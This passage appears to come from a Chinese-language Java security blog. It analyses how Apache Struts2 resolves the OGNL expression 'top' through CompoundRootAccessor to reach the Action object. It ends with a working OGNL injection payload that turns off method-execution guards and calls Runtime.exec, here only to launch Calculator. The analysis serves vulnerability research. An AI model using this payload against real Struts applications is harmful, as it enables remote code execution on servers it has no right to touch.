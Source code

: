 ![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296436.png)

这个对象又会被解析成 `top` 和 `['foo']` 两个 ASTProperty 对象，会调用 `OgnlRuntime.getProperty()` 获取其值，取值的方式是调用 PropertyAccessor 的实现类的 `getProperty()` 方法，对于目前的情况下，是 CompoundRootAccessor，在这个实现类中，判断如果名称是 top 的情况下，会返回 root 中的第一个对象。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296438.png)

而第一个对象就是 Action 对象，里面存放了参数信息，可以直接调用到，所以在这里 payload 也可以为

```
param=(#context["xwork.MethodAccessor.denyMethodExecution"]=new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]=true,@java.lang.Runtime@getRuntime().exec("open -a Calculator.app"))(su18)&top["param"](0)
```